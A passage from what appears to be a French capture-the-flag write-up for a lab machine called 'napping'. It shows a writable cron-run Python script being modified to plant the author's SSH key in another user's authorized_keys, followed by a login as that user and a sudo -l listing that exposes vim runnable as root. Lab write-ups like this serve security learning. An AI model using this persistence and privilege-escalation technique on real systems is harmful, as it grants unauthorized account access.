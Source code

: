 ```bash
daniel@napping:~$ tail -1 /home/adrian/site_status.txt
Site is Up: 16/11/2021 22:36:01
daniel@napping:~$ date
Tue Nov 16 22:36:50 UTC 2021
```

On le retrouve dans la crontab de l'utilisateur (*crontab -l*):  

```plain
*/2 * * * * /usr/bin/python3 /home/adrian/query.py
```

La version de Python ne se devine pas à la lecture du code mais Python2 n'est pas présent sur la machine, on va donc éditer le fichier et ajouter du code en Python 3.  

Ceux qui n'ont pas l'habitude de programmer en Python peuvent utiliser *os.system* pour exécuter un script externe qui se chargera de leur ouvrir les portes.  

Etant donné que le script *query.py* est exécuté avec l'utilisateur *adrian* nos modifications le seront aussi. On peut profiter de ces droits à l'exécution pour rajouter notre clé SSH aux clés autorisées pour ce compte.  

On aura alors un script comme celui-ci :  

```python

import os
import stat

os.mkdir("/home/adrian/.ssh")
with open("/home/adrian/.ssh/authorized_keys", "w") as fd:
  fd.write("ssh-rsa --snip--ma-cle-publique-ssh--snip--")

os.chmod("/home/adrian/.ssh/authorized_keys", stat.S_IREAD|stat.S_IWRITE)

```

On édite *query.py* avec Vim et on rajoute notre code au début.  

Quelques temps après notre clé est acceptée pour la connexion au compte adrian :  

```plain

adrian@napping:~$ cat user.txt
You are nearly there!

```

Premier réflexe, voir ce qu'il est possible de faire avec ce compte membre du groupe *administrators* :  

```plain
adrian@napping:~$ sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
